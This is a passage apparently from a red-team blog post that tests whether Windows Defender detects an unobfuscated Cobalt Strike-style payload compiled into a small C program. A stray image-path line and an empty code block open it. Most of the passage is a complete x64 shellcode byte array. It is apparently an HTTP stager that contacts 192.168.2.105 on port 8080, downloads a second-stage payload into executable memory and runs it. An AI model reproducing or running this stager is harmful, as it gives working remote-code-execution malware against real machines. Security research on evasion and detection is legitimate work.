```c
```

Here's the string above, decoded:

![Plaintext shellcode](/media/playing-with-cobalt-strike-2-11.png)

#### Testing Plain Shellcode

Obviously, there is no obfuscation here. The IP address of `attacker.local` is even in plaintext. I wrapped this string in a tiny function to first determine if Defender would detect it once compiled, which it immediately did, identifying the executable as `Trojan:Win64/TurtleLoader.CS!dha`.

```c
int main() {
  unsigned char array[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x75\x72\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4f\xff\xff\xff\x5d\x6a\x00\x49\xbe\x77\x69\x6e\x69\x6e\x65\x74\x00\x41\x56\x49\x89\xe6\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x48\x31\xc9\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\x41\x50\x41\x50\x41\xba\x3a\x56\x79\xa7\xff\xd5\xeb\x73\x5a\x48\x89\xc1\x41\xb8\x90\x1f\x00\x00\x4d\x31\xc9\x41\x51\x41\x51\x6a\x03\x41\x51\x41\xba\x57\x89\x9f\xc6\xff\xd5\xeb\x59\x5b\x48\x89\xc1\x48\x31\xd2\x49\x89\xd8\x4d\x31\xc9\x52\x68\x00\x02\x40\x84\x52\x52\x41\xba\xeb\x55\x2e\x3b\xff\xd5\x48\x89\xc6\x48\x83\xc3\x50\x6a\x0a\x5f\x48\x89\xf1\x48\x89\xda\x49\xc7\xc0\xff\xff\xff\xff\x4d\x31\xc9\x52\x52\x41\xba\x2d\x06\x18\x7b\xff\xd5\x85\xc0\x0f\x85\x9d\x01\x00\x00\x48\xff\xcf\x0f\x84\x8c\x01\x00\x00\xeb\xd3\xe9\xe4\x01\x00\x00\xe8\xa2\xff\xff\xff\x2f\x55\x6e\x71\x75\x65\x75\x65\x2f\x76\x31\x30\x2e\x30\x35\x2f\x5a\x30\x51\x5a\x39\x5a\x58\x45\x58\x47\x45\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\x63\x63\x65\x70\x74\x3a\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x6a\x73\x6f\x6e\x2c\x20\x74\x65\x78\x74\x2f\x68\x74\x6d\x6c\x2c\x20\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e\x2f\x78\x68\x74\x6d\x6c\x2b\x78\x6d\x6c\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x4c\x61\x6e\x67\x75\x61\x67\x65\x3a\x20\x73\x71\x0d\x0a\x41\x63\x63\x65\x70\x74\x2d\x45\x6e\x63\x6f\x64\x69\x6e\x67\x3a\x20\x67\x7a\x69\x70\x2c\x20\x62\x72\x0d\x0a\x55\x73\x65\x72\x2d\x41\x67\x65\x6e\x74\x3a\x20\x4d\x6f\x7a\x69\x6c\x6c\x61\x2f\x35\x2e\x30\x20\x28\x57\x69\x6e\x64\x6f\x77\x73\x20\x4e\x54\x20\x31\x30\x2e\x30\x3b\x20\x57\x69\x6e\x36\x34\x3b\x20\x78\x36\x34\x29\x20\x41\x70\x70\x6c\x65\x57\x65\x62\x4b\x69\x74\x2f\x35\x33\x37\x2e\x33\x36\x20\x28\x4b\x48\x54\x4d\x4c\x2c\x20\x6c\x69\x6b\x65\x20\x47\x65\x63\x6b\x6f\x29\x20\x43\x68\x72\x6f\x6d\x65\x2f\x36\x32\x2e\x30\x2e\x33\x32\x30\x32\x2e\x39\x34\x20\x53\x61\x66\x61\x72\x69\x2f\x35\x33\x37\x2e\x33\x36\x0d\x0a\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x41\xbe\xf0\xb5\xa2\x56\xff\xd5\x48\x31\xc9\xba\x00\x00\x40\x00\x41\xb8\x00\x10\x00\x00\x41\xb9\x40\x00\x00\x00\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x93\x53\x53\x48\x89\xe7\x48\x89\xf1\x48\x89\xda\x41\xb8\x00\x20\x00\x00\x49\x89\xf9\x41\xba\x12\x96\x89\xe2\xff\xd5\x48\x83\xc4\x20\x85\xc0\x74\xb6\x66\x8b\x07\x48\x01\xc3\x85\xc0\x75\xd7\x58\x58\x58\x48\x05\xa1\x03\x00\x00\x50\xc3\xe8\x9f\xfd\xff\xff\x31\x39\x32\x2e\x31\x36\x38\x2e\x32\x2e\x31\x30\x35\x00\x00\x00\x00\x00";
}
```
